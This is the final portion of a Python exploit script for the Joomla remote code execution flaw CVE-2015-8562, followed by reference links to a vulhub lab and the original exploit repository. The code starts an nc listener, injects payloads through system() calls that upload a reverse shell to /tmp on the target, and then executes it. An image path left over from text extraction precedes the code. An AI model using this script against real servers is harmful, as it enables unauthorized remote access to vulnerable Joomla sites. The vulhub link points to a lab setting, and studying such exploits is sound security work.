             print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
            print "\033[1;32;10m[+] Spawning listener on {}:{}".format(args.LHOST, args.LPORT)        
            listener = subprocess.Popen(args=["gnome-terminal", "--command=nc -lvp "+args.LPORT])
            time.sleep(5)
            print "\033[1;37;10m[-] Uploading reverse shell to /tmp/{}".format(shell_name)
            pl = generate_payload("system('"+payload+"');")
            print get_url(args.RHOST, pl, args.method, proxyDict)
            time.sleep(2)
            print "\033[1;32;10m[+] Spawning reverse shell..."
            print "\033[1;33;10m[-] Check if the listener caught the shell\033[1;37;10m"
            pl = generate_payload("system('{} /tmp/{}');".format(comm, shell_name))
            print get_url(args.RHOST, pl, args.method, proxyDict)
        else:
            print '\033[1;31;10m\n[!] Missing Arguments\n\033[1;37;10m'
            parser.print_help()

    if __name__ == "__main__":
        try:
            # Suppress SSL Warning due to unverified HTTPS requests.
            # See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
            urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
            main()
        except KeyboardInterrupt:
            print "\033[1;31;10mQuitting..."
            sys.exit(0)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562
>
> https://github.com/VoidSec/Joomla\_CVE-2015-8562
